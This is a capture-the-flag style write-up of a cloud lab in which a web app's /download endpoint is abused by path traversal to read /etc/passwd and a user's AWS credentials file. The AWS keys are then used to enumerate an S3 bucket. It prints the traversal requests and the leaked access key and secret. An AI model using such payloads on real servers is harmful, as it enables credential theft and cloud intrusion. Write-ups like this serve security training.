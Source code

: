 ```yaml
---
title: Path Traversal to AWS Credentials to S3
layout: list
permalink: /writeups/cloud/pwnedlabs/ 
---
```


# Entry Point

`13.50.73.5`

<br><br>

### NMAP

```
# Nmap 7.94SVN scan initiated Thu Oct 10 15:55:22 2024 as: nmap -p 80 -sC -sV -oA scans/port80 13.50.73.5
WARNING: Service 13.50.73.5:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for ec2-13-50-73-5.eu-north-1.compute.amazonaws.com (13.50.73.5)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  rtsp
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: application/json
|     Content-Length: 163
|     {"error":{"message":"The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.","type":"NotFound"}}
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2359
|     Vary: Cookie
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/main.css">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/navbar.css">
|     <link rel="shortcut icon" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/images/favicon.ico">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/home.css">
|     <title>Home - Huge Logistics.</title>
|     </head>
|     <body>
|     <div class="navbar">
|     <ul>
|     <li><a class="nav-
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_http-title: Home - Huge Logistics.
```

# Website

![image](/assets/img/Pasted image 20241010155617.png)

### `/signup`

![image](/assets/img/Pasted image 20241010155922.png)

### `/invoices`

![image](/assets/img/Pasted image 20241010160026.png)

<br>

### LFI

![image](/assets/img/Pasted image 20241020230644.png)

![image](/assets/img/Pasted image 20241020230712.png)


```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```

![image](/assets/img/Pasted image 20241020230735.png)

### Local Users

```
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
nedf:x:1001:1001::/home/nedf:/bin/bash
```

### AWS Credentials

```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fnedf%2F.aws%2Fcredentials HTTP/1.1
```

```
[default]
aws_access_key_id = AKIATWVWNKAVEUUNAYO6
aws_secret_access_key = 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
```

![image](/assets/img/Pasted image 20241020233131.png)

<br><br>

# AWS

### S3

```
huge-logistics-bucket.s3.eu-north-1.amazonaws.com
```

![image](/assets/img/Pasted image 20241021004217.png)

```bash
python3 /opt/aws-s3-scanner/s3-scanner/main.py --profile nedf --region eu-north-1 --bucket huge-logistics-bucket
```

![image](/assets/img/Pasted image 20241021004608.png)

